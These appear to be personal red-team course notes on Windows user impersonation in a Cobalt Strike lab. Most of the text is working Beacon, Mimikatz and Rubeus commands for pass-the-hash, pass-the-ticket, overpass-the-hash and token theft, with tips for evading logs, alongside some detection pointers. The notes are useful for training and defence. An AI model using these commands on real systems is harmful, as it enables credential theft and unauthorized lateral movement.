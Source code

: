# User Impersonation

There are techniques which use stolen creds to access one of the target computers. There are also techniques that don't use credentials directly, but take advantage of processes that the user is running on a machine we have elevated access on. Test elevated access to a machine by listing the C drive, as this requires local admin.

## Pass the Hash

Allows you to authenticate to a Windows service using a user's NTLM hash. It starts a new session with a fake identity and then replaces the session information with the domain, username, and NTLM hash provided. 

Beacon has a ```pth``` command that executes Mimikatz in the background (requires elevated privs).

In lab, on beacon prompt:

1. ```getuid``` - find out who I am
2. ```ls \\web.dev.cyberbotic.io\c$``` - attempt to list the C$ share of the WEB machine (this will fail because bfarmer is not a local admin)
3. ```pth DEV\jking 59fc0f884922b4ce376051134c71e22c``` - run ```pth``` with jking's username and NTLM hash; Mimiktaz passes the new credentials over a named pipe, which Beacon then impersonates automatically
4. ```ls \\web.dev.cyberbotic.io\c$``` - attempt to list the C$ share works now!
5. ```rev2self``` - drop impersonation when no longer needed

Two ways to detect ```pth```:
* The R/W handle to LSASS (access mask of 0x1038)
* Look for ```echo foo > \\.\pipe\bar``` pattern in command-line logs (via the "Suspicious Named Pipe Impersonation" search)

## Pass the Ticket

Allows you to add Kerberos tickets to an existing logon session (LUID) that you have access to or a new one you create. Accessing a remote resource will then allow that authentication to happen via Kerberos.

Use the TGT extracted from the logon session on Workstation 2. Create a blank, "sacrificial" logon session that we can pass the TGT into (can only hold a single TGT at a time -- also, passing jking's TGT into bfarmer's LUID would erase bfarmer's TGT and cause all sorts of authentication issues for the user)

1. ```execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe``` - start a new hidden process of your choice; also creates a new ticketless LUID
2. ```execute-assembly Rubeus.exe ptt /luid:0x798c2c /ticket:doIF...LklP``` - pass the TGT into this new LUID
3. ```steal_token 4748``` - impersonate the process that we created using the PID createnetonly returned
4. To clean up:
   * ```rev2self```
   * ```kill <PID>```

Rubeus defaults to a random username, domain, and password, which will appear in the associated <PID> logon event. The "Suspicious Logon Events" saved search will show 4624's where the TargetOutboundDomainName is not an expected value. To set these values (password doesn't have to be real):

```execute-assembly Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123```

## Overpass the Hash

Allows us to request a Kerberos TGT for a user, using their NTLM or AES hash. Elevated privs are required to obtain user hashes, but not to request a ticket.

* ```execute-assembly Rubeus.exe asktgt /user:jking ntlm:59fc...e22c /nowrap``` - use the returned TGT for Pass the Ticket (but this stands out in the logs since NTLM uses RC4)
* ```execute-assembly Rubeus.exe asktgt /user:jking aes256:4a8...57c6 /nowrap``` - to get an AES256 TGT; gets logged as 4768, but blends in (except Ticket Options and Supplied Realm Name; uses the FQDN of the domain of the computer)
* ```execute-assembly Rubeus.exe asktgt /user:jking aes256:4a8...57c6 /domain:DEV /opsec /nowrap``` - uses the NETBIOS name and correct Ticket Options to blend in better

Rubeus' method doesn't touch LSASS (unlike Mimikatz) but does generate Kerberos traffic from an odd process, not LSASS.  These can be seen using the "Kerberos Traffic from Suspicious Process" saved search.

## Token Impersonation

If we elevate or are on a system where a user is running a process, we can impersonate the token. Get a handle to the target process, open and copy its primary access token, and then impersonate that token. Ability to abuse it goes away when the user closes the process. By taking the additional steps of extracting tickets or hashes, we provide ourselves a more guaranteed or "future-proof" way of using the creds. When impersonating users, CS shows who the beacon is impersonating.

1. List the running processes on Workstation 2 from an elevated prompt to see that jking is running an instance of ```mmc``` (in PS ```Get-Process```).
2. ```steal_token <PID>``` to access a target
3. ```ls \\web.dev.cyberbotic.io\c$``` to show elev access 
4. 

## Token Store

CS can store tokens stolen for future use. Stealing a token opens a handle to the target process and process token, so the fewer times it's done the better. Also, keeping a token prevents the OS from closing the session if they log off.

* ```token-store steal <PID>``` - steal token
* ```token-store show``` - show tokens
* ```token-store use <ID>``` - use a token
* ```token-store remove <ID>``` - delete token
* ```token-store remove-all``` - flush tokens

## Make Token





